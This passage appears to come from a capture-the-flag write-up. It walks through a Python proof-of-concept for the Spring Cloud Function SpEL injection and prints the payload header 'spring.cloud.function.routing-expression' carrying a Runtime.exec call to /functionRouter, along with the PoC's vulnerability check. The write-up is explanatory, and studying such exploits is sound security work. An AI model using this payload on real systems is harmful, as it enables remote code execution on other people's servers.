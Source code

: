                 if code == 500 and rsp in text:
                    print ( f'[+] { url } is vulnerable' )
                    poc_file = open('vulnerable.txt', 'a+')
                    poc_file.write(url + '\n')
                    poc_file.close()
                else:
                    print ( f'[-] { url } not vulnerable' )
    

A bit before that, it sets the data that will be sent:

    
    
        payload=f'T(java.lang.Runtime).getRuntime().exec("{cmd}")'
    
        data ='test'
        headers = {
            'spring.cloud.function.routing-expression':payload,
            'Accept-Encoding': 'gzip, deflate',
            'Accept': '*/*',
            'Accept-Language': 'en',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
            'Content-Type': 'application/x-www-form-urlencoded'
        }
        path = '/functionRouter'
    

Execution appears to be in a specially formatted
`spring.cloud.function.routing-expression` header.

I’ll try sending this request, and it does crash:

![image-20230313183004040](../img/image-20230313183004040.png)
